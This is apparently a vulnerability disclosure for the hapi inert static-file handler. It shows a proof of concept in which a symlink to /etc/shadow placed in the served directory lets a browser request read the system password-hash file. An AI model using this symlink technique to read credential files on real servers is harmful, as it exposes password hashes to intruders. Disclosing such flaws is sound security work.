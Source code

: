 # Description

With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.

# POC

1. Install hapi: **npm i @hapi/hapi**
2. Run the server as: **node static_server.js**. 

```js
// static_server.js
const Path = require('path');
const Hapi = require('@hapi/hapi');
const Inert = require('@hapi/inert');
const init = async () => {

    const server = new Hapi.Server({
        host: 'localhost',
        port: 3000,
        routes: {
            files: {
                relativeTo: Path.join(__dirname, '.')
            }
        }
    });

    await server.register(Inert);

    server.route({
        method: 'GET',
        path: '/{param*}',
        handler: {
            directory: {
                path: '.',
                redirectToSlash: true
            }
        }
    });

    await server.start();

    console.log('Server running at:', server.info.uri);
};

init();
```

3. Create a symlink file within the directory ln -s /etc/shadow test_shadow.html
4. Request the file within browser http://localhost:3000/test_shadow.html
